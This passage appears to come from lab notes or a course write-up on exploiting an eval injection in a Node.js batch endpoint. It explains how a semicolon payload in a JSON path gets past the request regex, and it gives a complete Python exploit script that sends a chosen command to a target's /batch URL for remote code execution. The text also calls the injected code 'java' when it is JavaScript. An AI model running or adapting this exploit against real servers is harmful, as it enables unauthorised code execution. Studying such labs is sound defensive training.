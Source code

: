 ## Understanding The Regex
Before we start to exploit the vulnerability of the eval function, we need to first understand what kind of sanitization/formatting is being done to the JSON request through the regular expression.
The regex we're dealing with looks like so:

```javascript
var requestRegex = /(?:\/)(?:\$(\d)+\.)?([^\/\$]*)/g;
```

To understand this regex, we can visit [regex101](https://regex101.com/), which provides easy explanation for any regex.
In our test string field we'll simply insert a value from the example batch.js file from the POST request path, add a terminator, and add an example command

![](../../03.%20Screenshots/t3-ss10.png)

Here:
1. The forward slashes are used as string separators
2. The strings between the slashes are then grouped using the dot character as a separator, but only if the $d pattern is matched
3. The payload ";hacked" is injected into the original statement, and manages to bypass the regex test. This is because the semi-colon(;) character terminates the statement in JavaScript.

This will let us append code to the statement, and let us execute code on the remote server.
To trigger the bug, we'll use the following script:

```python
import requests,sys

if len(sys.argv) != 3:
    print "(+) usage: %s <target> <cmd_injection>" % sys.argv[0]
    sys.exit(-1)
    
target = "http://%s:8080/batch" % sys.argv[1]

cmd = sys.argv[2]

request_1 = '{"method":"get","path":"/profile"}'
request_2 = '{"method":"get","path":"/item"}'
request_3 = '{"method":"get","path":"/item/$1.id;%s"}' % cmd

json =  '{"requests":[%s,%s,%s]}' % (request_1, request_2, request_3)

r = requests.post(target, json)

print r.content
```

We execute the script with our arguments, and see nothing special:

![](../../03.%20Screenshots/t3-ss11.png)

However, checking the log file:

![](../../03.%20Screenshots/t3-ss12.png)

We see that we are able to execute arbitrary java code on the server.
All that's left to do is use this bug to get a reverse shell.